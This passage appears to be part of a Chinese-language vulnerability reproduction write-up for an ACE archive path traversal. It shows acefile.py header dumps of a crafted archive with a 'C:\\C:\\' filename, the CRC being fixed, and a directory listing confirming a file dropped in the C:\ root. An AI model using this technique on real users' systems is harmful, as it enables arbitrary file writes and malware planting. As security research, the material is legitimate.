   修改好校验

  ```cmd
  >python acefile.py --headers TESTPAYLOD01.ace
  31788 b'\x01\x01\x80\r\x00\x00\x00\r\x00\x00\x00aT[N \x00\x00\x00\\MC|\x00\x03\n
  \x00TE\x17\x00C:\\C:\\TESTPAYLOAD01.txt'
  TESTPAYLOD01.ace: CorruptedArchiveError: header CRC failed
  
  >python acefile.py --headers TESTPAYLOD01.ace
  volume
      filename    TESTPAYLOD01.ace
      filesize    124
      headers     MAIN:1 FILE:1 others:0
  header
      hdr_crc     0x490e
      hdr_size    49
      hdr_type    0x00        MAIN
      hdr_flags   0x9000      ADVERT|SOLID
      magic       b'**ACE**'
      eversion    20          2.0
      cversion    20          2.0
      host        0x02        Win32
      volume      0
      datetime    0x4e5b5479  2019-02-27 10:35:50
      reserved1   fe 03 4b e6 4e 20 00 00
      advert      b'*UNREGISTERED VERSION*'
      comment     b''
      reserved2   b''
  header
      hdr_crc     0x7c2c
      hdr_size    54
      hdr_type    0x01        FILE32
      hdr_flags   0x8001      ADDSIZE|SOLID
      packsize    13
      origsize    13
      datetime    0x4e5b5461  2019-02-27 10:35:02
      attribs     0x00000020  ARCHIVE
      crc32       0x7c434d5c
      comptype    0x00        stored
      compqual    0x03        normal
      params      0x000a
      reserved1   0x4554
      filename    b'C:\\C:\\TESTPAYLOAD01.txt'
      comment     b''
      ntsecurity  b''
      reserved2   b''
  ```

  进行攻击尝试，发现可以实现攻击

  ```cmd
  C:\>dir
   驱动器 C 中的卷没有标签。
   卷的序列号是 2E73-CE10
  
   C:\ 的目录
  
  2009/07/14  11:20    <DIR>          PerfLogs
  2019/02/26  10:49    <DIR>          Program Files
  2019/02/26  11:06    <DIR>          Program Files (x86)
  2019/02/15  17:03    <DIR>          Python27
  2019/02/27  10:35                13 TESTPAYLOAD01.txt
  2016/09/05  10:22    <DIR>          Users
  2019/02/26  11:18    <DIR>          Windows
  ```
